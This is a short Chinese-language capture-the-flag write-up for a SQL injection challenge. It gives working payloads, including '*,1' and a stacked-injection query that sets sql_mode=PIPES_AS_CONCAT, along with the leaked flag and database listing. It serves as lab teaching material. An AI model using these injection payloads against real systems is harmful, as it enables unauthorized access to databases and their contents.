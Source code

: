 先fuzz一遍，以下关键字被过滤

![](/pic/68.png)

**非预期解**

```
*,1
```

```
Array ( [0] => flag{36c7b843-6efb-409d-a1fe-3ef54fce7d6d} [1] => 1 )
```



**预期解**

根据测试发现输入长度最大为40个字符

还发现存在堆叠注入

```
1;show databases;#
 
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test )
```

经过测试查询语句应该类似于

```
select $_POST['query'] || flag ...
```

关于[sql_mod](https://mariadb.com/kb/en/sql-mode/)

当设置sql_mode=**PIPES_AS_CONCAT**时，将"||"视为字符串的连接操作符而非或运算符，这和 Oracle 数据库是一样的，也和字符串的拼接函数 Concat 相类似

所以payload为：

```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```
